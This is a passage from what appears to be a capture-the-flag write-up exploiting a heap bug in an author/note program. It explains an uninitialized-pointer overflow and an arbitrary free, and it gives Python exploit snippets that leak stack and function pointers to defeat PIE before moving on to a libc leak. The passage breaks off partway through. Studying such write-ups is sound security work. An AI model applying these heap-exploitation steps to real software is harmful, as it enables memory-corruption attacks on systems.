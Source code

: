 So if we supply zero as our size we won't get any note, but the pointer is also unutilized and we can therefore create fake chunk overflow into it with our note, change the pointer to point anywhere and read whatever we want.

## Arbitrary free

Now thanks to the vulnerability above we can choose any location we want to free and put into a free bin. That means our next chunk could be allocated at our chosen memory location.
However in this case we use `ta_alloc` which won't let us free any memory which looks like a chunk. But we could free our chunk and replace it with our custom one.

## Exploit

### Leakeage

First what we can do is prepare our first chunk which we are gonna modify to overflow into Note pointer and print it. This will give us stack pointer for free.

```python
leak_author = add_author(b"X"*16, b"X"*16, b"18446744073709551615", b"7", b"X"*8)
modify_author(leak_author, b"X"*16, b"A"*17, b"123456")

leak_raw = print_author(leak_author)[2].split(b"A"*16)[1]
leak_ptr = u64(leak_raw.ljust(8,b"\x00"))
log.info("Stack pointer: "+hex(leak_ptr))
```

Now there is also a pointer to a function which prints the note. To leak this we need to prepare another fake chunk. 
This chunk is going to be after our first leak chunk.
```python
fake_chunk = add_author(b"B"*16, b"B"*16, b"18446744073709551615", b"7", b"B"*8)
```

**The integer used for age is set to max so we get maximum value 0xffff.....** we could also just overflow more but whatever.

Now we free both of them and finally add last chunk which needs to have 48 bytes as note size to overflow into the `fake_chunk`.

This way we can print the author and get the function pointer, essentially defeating PIE.

Finally we know stack values, binary values and the only thing we don't know is libc. This can be easily done using our unutilized pointer. 

First we create 2 chunks after each other
```python
dummy = add_author(b"A"*16, b"A"*16, b"0", b"7", b"A"*8)
dummy2 = add_author(b"A"*16, b"A"*16, b"0", b"7", b"A"*8)
```
This will give us 0x80 bytes of space.

Now we free both of them.
```python
free_author(dummy)
free_author(dummy2)
```
